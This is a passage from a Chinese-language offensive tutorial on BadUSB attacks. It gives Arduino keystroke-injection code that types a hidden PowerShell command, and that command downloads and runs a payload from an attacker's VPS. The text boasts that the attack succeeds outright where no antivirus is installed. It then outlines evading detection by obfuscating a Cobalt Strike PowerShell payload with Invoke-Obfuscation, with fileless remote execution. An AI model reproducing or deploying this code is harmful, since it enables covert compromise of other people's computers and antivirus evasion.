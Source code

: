 ```
    Keyboard.press(KEY_RETURN);
    delay(100);
    Keyboard.release(KEY_RETURN);
    delay(100);
    Keyboard.println("powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('vps/a'))""); //需要执行的代码
    delay(100);
    Keyboard.press(KEY_RETURN);
    delay(100);
    Keyboard.release(KEY_RETURN);
    delay(3000);

    // 退出终端
    Keyboard.println("exit"); //需要执行的代码
    delay(100);
    Keyboard.press(KEY_RETURN);
    delay(100);
    Keyboard.release(KEY_RETURN);

    // 结束监听
    Keyboard.end();//结束键盘通讯 
}
 
void loop() {
    // put your main code here, to run repeatedly:
}
```

这只能针对没有杀软的情况下，可以一击必杀上线成功。

_**_**No.5**_**_

_**简单的混淆**_

```
流程
1.制作混淆ps1
2.插入badusb
3.1 证书远程请求下载ps1并运行
3.2 powershell远程rce 无文件落地
4.上线
```

**制作混淆 ps1**

这里我们使用 Invoke-Obfuscation 进行二次混淆

github 的下载地址：

https://github.com/danielbohannon/Invoke-Obfuscation 

**cs 生成 ps1**

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXBsxCrZcI8UEdY9nUg3FynBNbZWC6MiaILrTqCG3PooJBZR5kDHyYWicNAzib17OqzA7hYavdJqumZw/640?wx_fmt=png)
